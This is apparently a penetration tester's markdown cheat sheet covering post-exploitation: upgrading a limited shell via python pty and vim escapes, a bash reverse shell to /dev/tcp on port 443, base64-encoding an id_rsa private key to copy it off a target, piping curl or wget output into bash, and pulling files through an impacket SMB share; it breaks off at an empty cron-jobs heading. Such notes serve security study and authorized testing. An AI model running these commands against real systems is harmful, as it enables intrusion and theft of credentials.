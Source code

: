 Upgrade from shitty shell
`python3 -c 'import pty;pty.spawn ("/bin/bash")'`

from VIM
`vim -c ':!/bin/sh'`
or `:set shell=/bin/sh` and then `:shell` from inside vim

With some kind of application command execution (SQL, etc)
- `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`
- set up a listened with port 443
- Then continue with python one above
	- won't work if shell dies too quickly

# File Transfers

### No Network Comms

`scp` if ssh is enabled

File Hash and Base64 encoding
- `md5sum id_rsa`
- `cat id_rsa | base64 -w 0;echo`
- Target: `echo -n '[string]' | base64 -d > id_rsa`
- check sum again


### Network Comms

`wget [link] -O [output]`
`curl [link] -o [output]` 
additionally, instead of supplying an out file, you can execute files by piping directly into `python3` or `bash` 

`python3 -m uploadserver` or `http.server`

`php -S [IP:port]`

Impacket smbserver `smbserver.py`
- `impacket-smbserver -smb2support CompData [directory for server location]`
- `CompData` is the name that the target will use to refer to the share.
- To transfer from target (windows example): `move [file] \\[host-IP]\CompData`


### File Transfers with Code

Python
- `python3 -c 'import urllib.request;urllib.request.urlretrieve("[URL to file]", "[output]")'`

PHP
- `php -r '$file = file_get_contents("[file URL]"); file_put_contents("[output]",$file);'`


# Cron jobs

